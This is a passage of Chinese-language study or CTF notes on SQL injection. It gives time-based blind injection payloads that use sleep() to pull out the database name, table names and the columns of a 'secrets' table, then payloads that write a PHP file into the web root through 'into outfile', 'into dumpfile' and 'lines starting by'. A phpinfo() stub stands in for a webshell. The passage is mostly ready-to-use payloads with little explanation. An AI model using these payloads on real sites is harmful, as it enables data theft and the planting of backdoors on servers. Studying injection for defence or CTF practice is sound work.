 将中间需要的内容进行替换即可

```php
        # 当前所在库
        # temp["student_name"] = f"Alice'and(if((ord(mid((select(group_concat(database()))),{i},1))>{mid}),sleep(2),1))#"
        # 表名
        # temp["student_name"] = f"Alice'and(if((((ord(mid((select(group_concat(table_name))from(information_schema.tables)where((table_schema)like(database()))),{i},1))))>{mid}),sleep(2),1))#"
        # 字段名
        # temp["student_name"] = f"Alice'and(if((((ord(mid((select(group_concat(column_name))from(information_schema.columns)where((table_name)like('secrets'))),{i},1))))>{mid}),sleep(2),1))#"
        # 内容
```



![img](https://s2.loli.net/2024/12/01/c8vzKkLUde1oiqX.png)

#### sqlshell

参考文献：

[sql注入getshell的几种方式](https://blog.csdn.net/qq_44159028/article/details/116274542?ops_request_misc=%7B%22request%5Fid%22%3A%2285deb1a33a555e82c6015c8dcb38073c%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=85deb1a33a555e82c6015c8dcb38073c&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-116274542-null-null.142^v100^pc_search_result_base4&utm_term=sqlshell&spm=1018.2226.3001.4187)

这里介绍了两种方式利用sql向系统中间写入木马

##### union select 后写入

```php
?id=1’ union select 1,2,’<?php phpinfo();?>’ into dumpfile ‘c:/www/info.php’#
?id=1’ union select 1,2,’<?php phpinfo();?>’ into outfile ‘c:/www/info.php’#
```

后面为地址，也可以选择写入/var/www/html这个经典的网络地址:这个网址很多时候都是默认访问的

##### 部分其他类型注入方法

注入原理

通过select语句查询的内容写入文件。

lines terminated by xx的作用是在每行终止的位置添加xx内容。



lines starting by 写入

?id=1’ into outfile ‘C:/www/info.php’ lines starting by ‘<?php phpinfo();?>’#

?id=1’ imit 1 into outfile ‘C:/www/info.php’ lines starting by ‘<?php phpinfo();?>’#



注入原理

ines starting by xx可以理解为 以每行开始的位置添加 xx 内容。
